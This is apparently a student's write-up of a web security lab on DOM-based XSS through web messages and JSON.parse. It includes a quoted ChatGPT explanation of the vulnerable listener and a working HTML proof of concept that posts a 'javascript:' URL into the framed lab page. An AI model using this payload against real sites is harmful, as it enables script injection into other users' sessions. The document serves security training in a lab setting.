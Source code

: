 # [DOM Vuln] DOM XSS using web messages and JSON.parse (1)

---

![Untitled](%5BDOM%20Vuln%5D%20DOM%20XSS%20using%20web%20messages%20and%20JSON%20par%205396172a14bd472d8e932bb20c69c867/Untitled.png)

using my extension firebug lite to filter the script we’re able to see that this web app has a event listener: 

![Untitled](%5BDOM%20Vuln%5D%20DOM%20XSS%20using%20web%20messages%20and%20JSON%20par%205396172a14bd472d8e932bb20c69c867/Untitled%201.png)

![Untitled](%5BDOM%20Vuln%5D%20DOM%20XSS%20using%20web%20messages%20and%20JSON%20par%205396172a14bd472d8e932bb20c69c867/Untitled%202.png)

CHATGPT BREAK DOWN OF THE CODE: 

1. The `window.addEventListener('message', function(e) {...}, false);` line sets up an event listener for the 'message' event. The function inside is the callback that will be executed when a 'message' event is fired.
2. Inside the callback function, an iframe is created and appended to the document body. An object `ACMEplayer` is also created with a single property `element` that references the iframe.
3. The code then attempts to parse the data from the event (`e.data`) as JSON. If the parsing fails (i.e., the data is not valid JSON), the function returns and no further action is taken.
4. If the parsing is successful, the code then checks the `type` property of the parsed data and performs different actions based on its value:
    - If `type` is "page-load", it scrolls the iframe into view.
    - If `type` is "load-channel", it sets the `src` of the iframe to the `url` property of the parsed data.
    - If `type` is "player-height-changed", it changes the width and height of the iframe to the `width` and `height` properties of the parsed data, respectively
    
    ---
    
    ### Let's try and create a POC
    
    - the message needs to contain some type of json string
    
    ![Untitled](%5BDOM%20Vuln%5D%20DOM%20XSS%20using%20web%20messages%20and%20JSON%20par%205396172a14bd472d8e932bb20c69c867/Untitled%203.png)
    
    ### Exploit server
    
    so we’re able to use the exploit server and be able to actually inject what ever URL we want in to it: 
    
    ![Untitled](%5BDOM%20Vuln%5D%20DOM%20XSS%20using%20web%20messages%20and%20JSON%20par%205396172a14bd472d8e932bb20c69c867/Untitled%204.png)
    
    also, we can have an alert popup as such: 
    
    ![Untitled](%5BDOM%20Vuln%5D%20DOM%20XSS%20using%20web%20messages%20and%20JSON%20par%205396172a14bd472d8e932bb20c69c867/Untitled%205.png)
    
    but I also found away to possibly escape this src tag. 
    
    ![Untitled](%5BDOM%20Vuln%5D%20DOM%20XSS%20using%20web%20messages%20and%20JSON%20par%205396172a14bd472d8e932bb20c69c867/Untitled%206.png)
    
    The payload: 
    
    ![Untitled](%5BDOM%20Vuln%5D%20DOM%20XSS%20using%20web%20messages%20and%20JSON%20par%205396172a14bd472d8e932bb20c69c867/Untitled%207.png)
    
    maybe if we can escape the src tag of the iframe we can have it include a event handler like onload. 
    
    ```jsx
    <style>
        body, html {
            margin: 0;
            height: 100%;
            overflow: hidden;
        }
        iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            border: 0;
        }
    </style>
    <iframe id="myIframe" src="https://0a730063039cd77e811bd4ee0066000f.web-security-academy.net/"></iframe>
    
    <script>
    var iframe = document.getElementById('myIframe');
    
    iframe.onload = function() {
      // Send a message to the iframe's content window
      iframe.contentWindow.postMessage(JSON.stringify({ type: 'load-channel', url: 'javascript:print()//default.asp' }), '*');
    };
    </script>
    ```
    
    Note that we cannot always use Json stringify because there will be instances that json stringify will encode certain quotes that weren't supposed to be encoded into the HTML string. 
    
    ![Untitled](%5BDOM%20Vuln%5D%20DOM%20XSS%20using%20web%20messages%20and%20JSON%20par%205396172a14bd472d8e932bb20c69c867/Untitled%208.png)